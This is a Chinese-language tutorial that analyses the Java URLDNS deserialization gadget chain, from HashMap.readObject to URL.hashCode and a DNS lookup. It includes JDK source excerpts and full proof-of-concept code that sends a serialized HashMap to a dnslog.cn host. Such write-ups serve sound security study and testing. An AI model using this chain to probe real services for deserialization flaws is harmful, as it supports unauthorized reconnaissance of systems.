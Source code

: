 ### Java URLDNS链刨析



先贴一篇URLDNS解析分析的文章https://www.cnblogs.com/Gcker/p/17805397.html



URLDNS条件：

1.有反序列化入口点readObject

2.可以通外网

链子如下：

借用内部库HashMap和URL

HashMap本身继承了serilaize接口和有readObject，而URL里有DNS获得主机的请求 即handler.hashCode里的 InetAddress addr = getHostAddress(u);的getHostAddress里的u.hostAddress = InetAddress.getByName(host);，这个可以根据主机名获得IP地址，可以进行一次DNS查询，那么这两个库有什么联系呢，我们可以根据源码分析下：

我们在Hashmap库里看到如下关键代码：

```java
private void readObject(java.io.ObjectInputStream s)
.................
.................<省略>...........

// Read the keys and values, and put the mappings in the HashMap
for (int i = 0; i < mappings; i++) {
    @SuppressWarnings("unchecked")
    K key = (K) s.readObject();
    @SuppressWarnings("unchecked")
    V value = (V) s.readObject();
    putVal(hash(key), key, value, false, false);
}
}
}
```

我们在最后反序列化的时候可以在hashmap里自带调用readObject，而readObject里的putVal方法会接收两个关键参数，key和value，我们发现key被hash加密了，我们跟到hash里去看看

```java
static final int hash(Object key) {
int h;
return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

如果key为空会直接返回0，如果不为空会调用(h = key.hashCode()) ^ (h >>> 16)，关键部分是这个key.hashCode,再结合URL库里的hashCode，这时候可以形成一条链子就是我们控制key为我们的URL对象，当执行到这个地方的时候就会执行URL的hashCode，我们看下URL hashCode的实现方法：

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

我们继续根据handler.hashCode

```java
protected int hashCode(URL u) {
int h = 0;

// Generate the protocol part.
String protocol = u.getProtocol();
if (protocol != null)
    h += protocol.hashCode();

// Generate the host part.
InetAddress addr = getHostAddress(u);
if (addr != null) {
    h += addr.hashCode();
} else {
    String host = u.getHost();
    if (host != null)
        h += host.toLowerCase().hashCode();
}
```

继续跟进getHostAddress:

```java
protected synchronized InetAddress getHostAddress(URL u) {
    if (u.hostAddress != null)
        return u.hostAddress;

    String host = u.getHost();
    if (host == null || host.equals("")) {
        return null;
    } else {
        try {
            u.hostAddress = InetAddress.getByName(host);
        } catch (UnknownHostException ex) {
            return null;
        } catch (SecurityException se) {
            return null;
        }
    }
```

InetAddress.getByName(host);这一块就是我们关键的东西了，根据上面所说就是触发DNS请求的操作了

但现在我们需要处理的是URL处的hashCode处理逻辑，这里我们需要java反射机制去设置hashCode不等于-1让它直接去执行handler.hashCode，去触发DNS请求，反射机制的代码如下：

```java
Field field=Class.forName("java.net.URL").getDeclaredField("hashCode");
field.setAccessible(true);
field.set(url,1);  
field.set(url,-1);
```

反射java.net.URL的hashcode值为1或者其它不为-1的值即可，最后还要给它设置回来这样第二次就可以直接返回来了,完整链子如下：

hashmap--->readObject---->hash(urlkey)---->urlkey's hashCode----->handler.hashCode----->getHostAddress---->InetAddress.getByName---->urlkey's hashCode=-1 return hashcode

完整利用代码如下：

序列化/反序列化代码util：

```java
package com.ctfjava.util;

import java.io.*;

public class SerializeUtil {
    public static byte[] serialize(Object object){
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        try {
            ObjectOutputStream objectOutputStream=new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(object);
            objectOutputStream.close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return byteArrayOutputStream.toByteArray();
    }
    public static Object unSerialize(byte[] bytes){
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(bytes);
        Object object;
        try {
            ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
            object=objectInputStream.readObject();
        } catch (IOException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }
        return object;
    }
}
package com.ctfjava.main;

import com.ctfjava.entity.User;
import com.ctfjava.util.SerializeUtil;

import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URISyntaxException;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class TestMain {
    public static void main(String[] args) throws MalformedURLException, URISyntaxException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Map hashmap=new HashMap();
        URL url=new URL("http://7onk2k.dnslog.cn");
        Field field=Class.forName("java.net.URL").getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(url,1);

        hashmap.put(url,"ctfjava");

        field.set(url,-1);
        byte[] data= SerializeUtil.serialize(hashmap);
        SerializeUtil.unSerialize(data); //触发了hashmap的readObject

    }
}
```

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1714309876495-695e6309-e9a5-4df2-a34d-b3bdb47b949a.png)

成功完成dns请求！